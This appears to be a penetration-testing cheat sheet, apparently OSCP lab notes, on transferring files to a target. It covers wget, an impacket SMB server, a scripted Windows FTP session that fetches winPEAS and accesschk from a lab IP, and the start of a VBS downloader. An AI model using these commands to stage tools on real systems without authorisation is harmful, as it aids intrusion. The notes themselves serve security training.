 #### Download file from webserver
```
wget http://<IP>:<PORT>/<FILE>
```

#### SMB Server
```
sudo python3 /opt/oscp/impacket/examples/smbserver.py <SHARE NAME> <PATH>
```

#### Look for files in SMB
```
dir \\<IP>\<SHARE NAME>
```

#### Copy files from SMB
```
copy \\<IP>\<SHARE NAME>\<FILE NAME> <FILE>
```

#### Copy all files
```
copy \\<IP>\<SHARE NAME>\<FILE NAME>\*.* .
```

#### Copy files to SMB
```
copy <FILE> \\<IP>\<SHARE NAME>\<FILE NAME>
```

#### Linux ftp
```
If installed use the ftp package
```

#### Windows ftp
Use native program with the -s parameter to use a input file for the commands
```
echo open 192.168.119.124 21> ftp.txt
echo USER offsec>> ftp.txt
echo lab>> ftp.txt
echo bin >> ftp.txt
echo GET accesschk.exe >> ftp.txt
echo GET winPEASany.exe >> ftp.txt
echo quit >> ftp.txt

ftp -v -n -s:ftp.txt
```

#### VBS download files for Windows XP
Create vbs script
```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
```